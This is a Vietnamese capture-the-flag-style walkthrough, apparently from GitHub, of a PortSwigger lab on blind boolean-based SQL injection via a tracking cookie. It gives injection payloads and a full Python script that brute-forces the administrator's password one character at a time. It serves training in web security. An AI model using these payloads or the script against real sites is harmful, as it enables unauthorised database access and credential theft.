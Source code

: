 ![image](https://github.com/user-attachments/assets/cf3cd172-0285-4229-a592-c71ba52b8fce)

![image](https://github.com/user-attachments/assets/d29f71fd-9470-45b7-a3f6-aeaba961016d)

Đây là bài lab khi ta bắt đầu. Nếu đúng thì nó sẽ luôn trả về data.

Dù ta có nháy đơn hay nháy kép kiểu gì thì nó cũng k cho ta dấu hiệu gì hết.

Vậy thì nó là blind rồi. Tiến hành check dựa vào boolean based

![image](https://github.com/user-attachments/assets/e033b939-01b9-417b-bd74-912902b7b37e)

![image](https://github.com/user-attachments/assets/d42d3e5d-922a-4e15-ad93-8e9e633ca1ba)

Dựa vào đây thì ta có thể biết chắc chắn được nó bị sqli rồi và nếu như bạn có thắc mắc là tại sao dùng `and` mà không dùng `or` ??. Câu trả lời là hoàn toàn được nhé.

Nếu dùng or thì bạn cần phải tìm data không có trong sql table thì khi đó bạn or thì mới biết nó có tác dụng

Ví dụ dễ hiểu sẽ là:

```
-999' or 1 = 1 --+
```

Thì nếu như select vào 1 data không tồn tại như này mà kết quả nó vẫn phản hồi ra gì đó thì bạn biết là nó bị sqli rồi còn gì, bởi or là chỉ cần 1 vế đúng thì sẽ select được còn gì.

vì vậy theo tôi cả 2 đều đúng. Và nếu sử dụng thì tôi rcm `and` vì nó khá trực quan và dễ hiểu. Còn `or` thì thường dùng để bypass login. Nói chung là cứ tùy trường hợp nhé, k cần cứng nhắc phải theo cái gì đó.

![image](https://github.com/user-attachments/assets/d045caac-cafb-4813-8540-7de80c9769d0)

Tiến hành check xem bảng users có tồn tại hay không.

Tại sao lại check như này. thì ta quay lại với sql syntax nhé.

![image](https://github.com/user-attachments/assets/17e84d4f-bdf2-4c70-89b1-7b7a10121c20)

Đó nếu bảng đó tồn tại thì nó sẽ là như này.

![image](https://github.com/user-attachments/assets/e32d122a-98a5-4e45-8b33-e165f1d65558)

Nếu bảng không tồn tại thì nó sẽ là như này. vì đó chỉ là select chuỗi nên là chuối k quan trọng khi nào không có `'` thì mới là truy vấn column

Nhớ nhé, vậy là ta đã check được bảng users có tồn tại.

Kiểm tra xem administrator có trong bảng users không.

![image](https://github.com/user-attachments/assets/b3ac3ef5-5f8c-44b8-99b0-3aa73797eec3)

Vậy là có tồn tại.

![image](https://github.com/user-attachments/assets/82267cc7-4fdc-41b0-9b9d-3078e23c8a00)

![image](https://github.com/user-attachments/assets/5565e3e0-0c1f-428a-9344-0409d4ef49fd)

Thử tiếp với >2, >3, … cho đến khi "Welcome back" biến mất, ta xác định được mật khẩu dài 20 ký tự.

![image](https://github.com/user-attachments/assets/c7518b27-8543-4686-a21b-4063b70757ae)

Vậy là tôi đã biết kí tự đầu tiên bắt đầu bằng chữ y. tiến hành bruteforce tiếp.

Payload:

```
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

Tiếp tục như vậy nhé.

Nhưng tôi là người lười, nên sẽ viết script để chạy v:

Đây là script của tôi. python nó chạy hơi chậm á, nếu muốn nhanh thì bạn cứ bruteforce = intruder rồi ghép lại.

```
import requests
import string

# Cấu hình request
URL = "https://0abb009b04d0e82284dd5fad00b400cd.web-security-academy.net/filter?category=Pets"
BASE_TRACKING_ID = "PF5r86UIm4PzfbU2"
COOKIES = {"session": "BN2PtienwI7n7n1r6ZajVzIzOFDSzD3d"}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Referer": "https://0abb009b04d0e82284dd5fad00b400cd.web-security-academy.net/"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits  # "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

def is_correct_guess(response):
    """ Kiểm tra nếu response có chứa 'Welcome back' (hoặc dấu hiệu khác của server). """
    return "Welcome back" in response.text  # Cần kiểm tra response thực tế từ server để chắc chắn

def brute_force_password():
    password = ""

    for i in range(1, 50):  # Giả sử password có tối đa 50 ký tự
        found = False
        for char in CHARSET:
            # Inject SQL để kiểm tra ký tự thứ i của password
            payload = f"{BASE_TRACKING_ID}' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username='administrator')='{char}"
            COOKIES["TrackingId"] = payload

            print(f"[*] Đang thử ký tự thứ {i}: {char}")  # Debug

            response = requests.get(URL, cookies=COOKIES, headers=HEADERS)

            if is_correct_guess(response):
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                found = True
                break
        
        if not found:
            print(f"[*] Password hoàn chỉnh: {password}")
            break

    return password

# Chạy script
final_password = brute_force_password()
print(f"Password cuối cùng: {final_password}")
```

![image](https://github.com/user-attachments/assets/157604a8-58e6-42eb-bee3-72c5c820c38f)

Và cứ tiếp tục như thế sẽ ra mật khẩu cuối cùng.

![image](https://github.com/user-attachments/assets/14c7b8d7-c957-4373-a9b1-c6163ca58a86)

Và sẽ thành công. Và tôi cũng đã làm bằng 2 cách.


